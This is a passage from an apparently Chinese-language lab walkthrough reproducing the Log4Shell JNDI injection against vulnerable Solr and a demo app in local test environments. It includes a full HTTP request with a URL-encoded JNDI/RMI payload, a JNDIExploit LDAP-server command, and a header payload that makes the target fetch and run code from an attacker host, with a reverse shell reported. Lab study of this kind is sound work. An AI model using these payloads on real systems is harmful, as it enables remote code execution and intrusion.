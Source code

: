 反弹 shell 成功

![image-20230711142555507](img/image-20230711142555507.png)

---

> **环境 2：vulhub/solr:8.11.0 依赖了 Log4j 2.14.1**

起 jndi 服务的步骤和命令一样，就是把接口地址改成`/solr/admin/cores?action=`

```http
GET /solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%30%30%2e%31%2e%31%2e%31%36%39%3a%31%30%39%39%2f%34%74%65%74%6f%33%7d  HTTP/1.1
Host: 192.168.1.189:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

> **环境 3：本地运行的，源码地址https://github.com/christophetd/log4shell-vulnerable-app**
>
> **同 vulfocus ghcr.io/christophetd/log4shell-vulnerable-app:latest**

这里也是解析 JNDI，只是解析的地方变成了从请求头里传进去的参数

```
java -jar .\JNDIExploit-1.4-SNAPSHOT.jar -i 10.89.17.243
```

起 LDAP 服务

![image-20230711174730147](img/image-20230711174730147.png)

添加请求头`X-Api-Version`，内容为`${jndi:ldap://10.89.17.243:1389/Basic/Command/Base64/Y2FsYw==}`。

使用 payload` Basic/Command/Base64/Y2FsYw==`，`Y2FsYw==`为`calc`的 base64 编码，如下：
